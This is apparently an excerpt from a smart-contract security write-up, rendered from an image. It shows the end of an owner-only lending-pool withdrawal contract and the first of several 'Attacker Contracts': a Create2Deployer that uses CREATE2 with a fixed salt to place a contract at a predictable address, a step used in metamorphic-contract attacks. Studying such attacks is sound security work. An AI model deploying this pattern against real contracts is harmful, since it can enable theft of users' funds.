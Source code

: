 ```solidity
    }

    /**
     * @dev withdraws funds from a pool
     * @param _contractAddress The address of the pool contract
     * @param _amount The amount of funds to withdraw
     */
    function withdrawFromLendingPool(address _contractAddress, uint256 _amount)
        public
        onlyOwner
        onlyValidAddress(_contractAddress)
    {
        IPool(_contractAddress).withdraw(_amount);
    }
}
```

### Attacker Contracts

#### Create2Deployer

This contract makes use of the CREATE2 opcode and deploys a Createdeployer contract to a fixed address (can't be chosen but will always be the same when deploy() is called). 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {CreateDeployer} from "./CreateDeployer.sol";
import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";

/**
 * @title Create2Deployer
 */
contract Create2Deployer is Ownable {
    /**
     * @dev Constructor that sets the owner of the contract as the deployer
     */
    constructor() {
        _transferOwnership(msg.sender);
    }

    /**
     * @dev Deploys a CreateDeployer contract using the CREATE2 opcode
     */
    function deploy() external returns (address) {
        bytes32 salt = keccak256(abi.encode(uint256(1)));
        return address(new CreateDeployer{salt: salt}(owner()));
    }
}
```
